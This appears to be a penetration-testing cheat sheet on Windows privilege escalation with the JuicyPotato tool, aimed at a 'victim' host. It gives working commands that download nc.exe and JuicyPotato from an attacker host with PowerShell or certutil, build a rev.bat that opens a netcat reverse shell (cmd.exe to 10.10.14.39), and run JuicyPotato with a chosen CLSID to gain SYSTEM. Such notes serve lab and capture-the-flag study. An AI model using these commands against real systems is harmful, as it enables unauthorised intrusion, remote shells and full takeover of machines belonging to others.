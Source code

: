 # Windows Privilege Escalation

## JuicyPotato

JuicyPotato is an automation PE script to escalate privilege from a Windows Service Accounts to NT AUTHORITY\SYSTEM.&#x20;

First, you need to check the OS information of the victim Windows Host by

```
systeminfo
```

You need a unique CLSID for different Windows OS. You can pick CLSID from [https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

![](broken-reference)

Check if the victim is vulnearble to JuicyPotato PE script. SeImpersonatePrivilege should be enabled.

```
C:\Windows\system32>whoami /priv
```

![](broken-reference)

Download nc.exe and juicypotato.exe to the victim host , then simply upload both to a writable directoy. I normall just write to a temp folder under \appdata\local\temp\\.

```
powershell.exe invoke-webrequest -uri http://$attackerip/nc.exe -outfile C:\users\user\appdata\local\temp\nc.exe
```

```
powershell.exe invoke-webrequest -uri http://$attackerip/JuicyPotato.exe -outfile C:\users\user\appdata\local\temp\jp.exe
```

If powershell isn't working, try with _certutil_ command.

```
certutil -urlcache -split -f http://$attackerip/JuicyPotato.exe jp.exe
```

Then create a rev.bat ( reverse shell bash ) file to get a reverseshell&#x20;

```
echo C:\users\user\appdata\local\temp\nc.exe -e cmd.exe 10.10.14.39 1340 > rev.bat
powershell.exe invoke-webrequest -uri http://$attackerip/rev.bat -outfile C:\users\user\appdata\local\temp\rev.bat
```

Then run Juicy with the correct  `clsid.`

```
jp.exe -t * -p C:\users\user\appdata\local\temp\rev.bat -l 1340 -c '{8F5DF053-3013-4dd8-B5F4-88214E81C0CF}'
```
